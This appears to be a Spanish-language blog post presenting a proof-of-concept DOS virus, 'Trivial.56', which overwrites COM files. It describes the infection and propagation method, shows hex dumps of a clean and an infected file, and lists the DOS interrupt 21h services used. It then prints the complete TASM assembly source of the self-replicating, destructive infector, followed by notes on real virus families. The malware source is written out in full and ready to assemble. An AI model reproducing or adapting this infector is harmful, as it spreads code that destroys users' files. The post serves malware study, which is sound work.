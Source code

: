 ```yaml
---
categories: [Malware, Programación]
layout: post
published: true
tags: [16-bit, ASM-x86, DOS, PoC, TASM, Virus]
title: "Prueba de concepto - Virus: x86/DOS, COM, Overwriting"
toc: true
---
```


Prueba de concepto de virus en la plataforma x86/DOS con estrategia de infección por 
overwriting (sobrescritura) en archivos COM. El virus infecta archivos en tiempo 
de ejecución.

## Método de infección
El virus simplemente sobrescribe otros archivos COM con el código viral. Es la estrategia
más primitiva, pero es muy agresiva y destructiva. Todas las generaciones del 
virus son idénticas.

  {% img infection.png | {"width":"350"} %}

Generalmente nada se preserva de los archivos huéspedes ya que son destruidos por la sobrescritura. 
La desinfección consiste en eliminar todos los archivos infectados.

## Método de propagación
La infección se realiza en el momento de ejecución infectando todos los archivos COM en el 
directorio actual a excepción de aquellos con atributo READ-ONLY, HIDDEN o SYSTEM.

## Flujo de ejecución

  {% img flow.png | {"width":"350"} %}

## Análisis estático
Hex dump de un archivo sano de tamaño 80 bytes:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span>B4 09 BA 39 01 CD 21 90</span>  <span>´.º9.Í!.</span>
<span>0x0008</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0010</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0018</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0020</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0028</span>  <span>90 90 90 90 90 90 90 90</span>  <span>........</span>
<span>0x0030</span>  <span>90 90 90 90 90 B4 00 CD</span>  <span>.....´.Í</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>

Hex dump del archivo infectado:
<pre class="ovf">
<span>Offset  00 01 02 03 04 05 06 07  ANSI</span>
<span>0x0000</span>  <span class="vs">B4 4E 33 C9 BA 32 01 CD</span>  <span class="vs">´N3Éº2.Í</span>
<span>0x0008</span>  <span class="vs">21 73 08 EB 21 B4 4F CD</span>  <span class="vs">!s.ë!´OÍ</span>
<span>0x0010</span>  <span class="vs">21 72 1B B4 3D B0 02 BA</span>  <span class="vs">!r.´=°.º</span>
<span>0x0018</span>  <span class="vs">9E 00 CD 21 8B D8 B4 40</span>  <span class="vs">ž.Í!‹Ø´@</span>
<span>0x0020</span>  <span class="vs">B9 38 00 BA 00 01 CD 21</span>  <span class="vs">¹8.º..Í!</span>
<span>0x0028</span>  <span class="vs">B4 3E CD 21 EB DF B4 00</span>  <span class="vs">´>Í!ëß´.</span>
<span>0x0030</span>  <span class="vs">CD 21 2A 2E 63 6F 6D 00</span>  <span class="vs">Í!*.com.</span>
<span>0x0038</span>  <span>21 54 68 69 73 20 69 73</span>  <span>!This is</span>
<span>0x0040</span>  <span>20 61 20 68 6F 73 74 20</span>  <span> a host </span>
<span>0x0048</span>  <span>66 69 6C 65 21 0D 0A 24</span>  <span>file!..$</span>
</pre>
<style>
  pre.ovf span { color: #000; }
  pre.ovf span:first-of-type { line-height:200% }
  pre.ovf span.vs { color: #ff0000 }
</style>

El virus sobrescribe desde el offset 0x0000 hasta 0x0037 (56 bytes). Lo único que se 
conserva del huésped es el código luego del offset 0x0037. Si el huésped fuera menor 
a 56 bytes no quedaría nada de el.

## API utilizada
Se utilizan 6 servicios de la DOS API mediante la interrupción de software 21h.
<div class="table-responsive">
<table class="table">
  <thead class="thead-light">
    <tr>
      <th>Servicio</th>
      <th>AH</th>
      <th>Parámetros</th>
      <th>Retorno</th>
      <th>Versión DOS</th>
    </tr>
  </thead>
  <tr>
    <td>Terminar programa</td>
    <td>00h</td>
    <td class="center">-</td>
    <td class="center">-</td>
    <td>1+</td>
  </tr>
  <tr>
    <td>Abrir archivo existente</td>
    <td>3Dh</td>
    <td>AL = modos de acceso e intercambio<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, AX = handle del archivo <br>Error: CF = 1, AX = código de error </td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Cerrar archivo</td>
    <td>3Eh</td>
    <td>BX = handle del archivo</td>
    <td>Éxito: CF = 0, AX destruido <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Escribir en archivo <br>o dispositivo</td>
    <td>40h</td>
    <td>BX = handle del archivo <br>CX = nro. de bytes <br>DS:DX -&gt; datos a escribir</td>
    <td>Éxito: CF = 0, AX = nro. de bytes escritos <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el primer archivo <br>coincidente</td>
    <td>4Eh</td>
    <td>CX = máscara de atributos de archivo<br>DS:DX -&gt; nombre del archivo (ASCIZ)</td>
    <td>Éxito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
  <tr>
    <td>Buscar el siguiente archivo <br>coincidente</td>
    <td>4Fh</td>
    <td class="center">-</td>
    <td>Exito: CF = 0, resultado en DTA <br>Error: CF = 1, AX = código de error</td>
    <td>2+</td>
  </tr>
</table>
</div>

## Código fuente
{% highlight nasm linenos %}
;##############################################################################
;# Nombre:        virus://DOS/Trivial.56
;# Plataforma:    Intel x86
;# SO:            DOS v2.0+, Win32 (mediante NTVDM)
;# Lenguaje:      ASM x86-16 (sintaxis Intel)
;# Herramientas:  TASM v4.1, TLINK v7.1.30
;# Tipo:          Overwriting, Non-Resident, COM infector
;# Tamaño:        56 bytes
;# Propagación:   Acción directa sobre el directorio actual. 
;# Infección:     Sobrescritura de archivos COM (no READ-ONLY/HIDDEN/SYSTEM).
;# Residente:     No
;# Stealth:       No
;# Payload:       No
;##############################################################################

.8086  
.model tiny

assume cs:virus, ds:virus

virus segment byte public 'CODE'

    org     100h

start:    
    mov     ah, 4Eh               ; | AH = 4Eh 
    xor     cx, cx                ; | CX = 0, archivos normales
    lea     dx, search_str        ; | DS:DX -> "*.COM"
    int     21h                   ; |_DOS API - Buscar primer archivo

    jnc     infect_file           ; archivo encontrado
    jmp     exit                  ; no hay archivo

find_next:    
    mov     ah, 4Fh               ; | AH = 4Fh  
    int     21h                   ; |_DOS API - Buscar siguiente archivo 

    jc      exit                  ; no hay archivo

infect_file:    
    mov     ah, 3Dh               ; | AH = 3Dh 
    mov     al, 2                 ; | AL = 2, lectura y escritura
    mov     dx, 9Eh               ; | DS:DX -> DTA + 1Eh = 9Eh (FileName)
    int     21h                   ; |_DOS API - Abrir archivo existente

    mov     bx, ax                ; | BX = handle del archivo 
    mov     ah, 40h               ; | AH = 40h
    mov     cx, virus_size        ; | CX = tamaño del virus
    lea     dx, start             ; | DS:DX -> inicio del código viral
    int     21h                   ; |_DOS API - Escribir en archivo/dispositivo

    mov     ah, 3Eh               ; | AH = 3Eh 
    int     21h                   ; |_DOS API - Cerrar archivo

    jmp     find_next             ; buscar siguiente

exit:    
    mov     ah, 00h               ; | AH = 00h
    int     21h                   ; |_DOS API - Retornar a DOS

search_str    db   "*.com", 00h   ; nombre comodín de búsqueda
virus_size    equ  ($ - start)    ; tamaño del virus

virus ends
end start
{% endhighlight %}

## Casos reales
* La familia de virus *Trivial* en sistemas DOS se caracteriza por tener los 
  ejemplares de virus más pequeños. Por ejemplo, *DOS/Trivial.22* es un 
  virus de solo 22 bytes.
* El gusano *VBS/LoveLetter.A@mm* tiene como principal vector de propagación el
  envió masivo de e-mails. Al ejecutarse sobre escribe archivos de extensión 
  *.vbs*, *.vbe*, *.js*, *.css*, *.jpg*, *.txt*, *.html*, *.avi*, *.mp3*, 
  y muchos más. Fue notablemente exitoso en el 2000.

## Bibliografía
{% bibliography -q
   @*[key=Szor2005
   || key=Phalcon-Skism,
   || key=Williams1992] 
%} 